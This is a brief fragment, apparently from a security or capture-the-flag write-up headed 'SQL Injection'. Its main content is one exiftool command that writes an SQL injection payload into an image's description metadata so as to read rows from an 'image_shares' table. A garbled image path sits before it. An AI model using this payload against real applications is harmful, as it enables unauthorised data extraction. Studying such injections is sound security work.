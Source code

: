 SQL Injection: 
```shell
$ exiftool img.jpg -imagedescription="',(select concat(owner,description)from(SELECT * FROM image_shares)as x LIMIT 0,1),1)--+" -o img2.jpg`
```
